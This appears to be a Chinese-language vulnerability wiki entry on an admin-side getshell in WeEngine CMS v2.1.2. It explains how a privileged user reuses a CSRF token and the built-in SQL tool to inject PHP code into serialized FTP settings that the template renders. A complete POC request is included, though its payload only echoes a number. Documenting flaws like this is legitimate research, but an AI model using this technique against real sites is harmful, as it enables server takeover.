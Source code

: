 微擎cms v2.1.2 后台getshell
===========================

一、漏洞简介
------------

需要登录后台，并且有高权限。

二、漏洞影响
------------

v2.1.2

三、复现过程
------------

这个洞首先需要一个高权账号。问题出在模板解析这里(template.func.php)。

![](/Users/aresx/Documents/VulWiki/.resource/微擎cmsv2.1.2后台getshell/media/rId24.png)

attachurl\_remote来自于后台的设置,但是有一层htmlspecialchars

![](/Users/aresx/Documents/VulWiki/.resource/微擎cmsv2.1.2后台getshell/media/rId25.png)

![](/Users/aresx/Documents/VulWiki/.resource/微擎cmsv2.1.2后台getshell/media/rId26.png)

但是恰巧微擎支持SQL操作,虽然有些绿化版本的把SQL提交按钮和TOKEN值隐藏了,但是由于微擎一个页面做了多个CASE,所以可以数据表优化处找到TOKEN

![](/Users/aresx/Documents/VulWiki/.resource/微擎cmsv2.1.2后台getshell/media/rId27.png)

这样就可以愉快的修改SQL了,然后会发现微擎存在一个缓存表,同时remote这边的设置做了序列化(其实这个也可以利用),就可以构造如下

### POC

    sql=DELETE from ims_core_cache;update ims_core_settings  set `value` ='a:5:{s:4:"type";i:1;s:6:"alioss";a:4:{s:3:"key";s:0:"";s:6:"secret";s:0:"";s:6:"bucket";N;s:8:"internal";s:1:"0";}s:3:"ftp";a:9:{s:3:"ssl";i:1;s:4:"host";s:9:"127.0.0.1";s:4:"port";s:2:"21";s:8:"username";s:4:"root";s:8:"password";s:4:"root";s:4:"pasv";i:0;s:3:"dir";s:10:"127.0.0.11";s:3:"url";s:28:"127.0.0.1?<?php echo 123; ?>";s:8:"overtime";i:0;}s:5:"qiniu";a:4:{s:9:"accesskey";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:3:"url";s:0:"";}s:3:"cos";a:6:{s:5:"appid";s:0:"";s:8:"secretid";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:5:"local";s:0:"";s:3:"url";s:0:"";}}' where `key`="remote";&token=9def73ec&submit=submit

最后刷新缓存然后打开有加载footer的页面就能getshell了

![](/Users/aresx/Documents/VulWiki/.resource/微擎cmsv2.1.2后台getshell/media/rId29.png)

![](/Users/aresx/Documents/VulWiki/.resource/微擎cmsv2.1.2后台getshell/media/rId30.png)

![](/Users/aresx/Documents/VulWiki/.resource/微擎cmsv2.1.2后台getshell/media/rId31.png)
